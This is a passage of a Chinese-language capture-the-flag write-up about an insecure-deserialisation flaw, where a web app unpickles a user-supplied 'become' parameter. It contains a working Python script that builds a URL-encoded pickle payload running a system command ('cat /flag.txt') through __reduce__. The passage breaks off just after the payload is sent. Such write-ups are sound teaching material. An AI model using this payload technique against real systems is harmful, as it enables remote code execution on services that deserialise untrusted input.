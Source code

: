 这里对用户传递的 `become` 参数直接做了反序列化。直接对用户的输入 (不可控) 做反序列化是非常危险的。

#### python 反序列化

由于序列化是向前兼容的, 并且 p=0 的序列化字符串可读性最强, 这里写成 0 号协议, 编写脚本:

```python
# -*- coding: utf-8 -*-
"""
在本地 Python 3.x 环境下生成可在 Python 2.7 目标环境中反序列化执行的 pickle payload。

关键点：
- 用 subprocess.getoutput 作为执行函数，Python 2.7 及以上均支持。
- pickle 协议指定为 0，以确保兼容 Python 2.x, 且可读性最好。
- URL 编码采用 urllib.parse.quote_from_bytes。
"""
import pickle
import subprocess
from urllib.parse import quote_from_bytes

class Payload(object):
    def __reduce__(self):
        # 使用 subprocess.getoutput 执行系统命令，Python2.7 和 Python3.x 均支持
        return (subprocess.getoutput, ('cat /flag.txt',))


def main():
    # 使用协议 0 序列化，保证反序列化时兼容 Python2
    serialized = pickle.dumps(Payload(), protocol=0)
    # quote_from_bytes 接受 bytes，生成 URL-safe str
    encoded = quote_from_bytes(serialized)
    print(encoded)

if __name__ == '__main__':
    main()
```

改包发出, 发现 flag 就在当前目录:
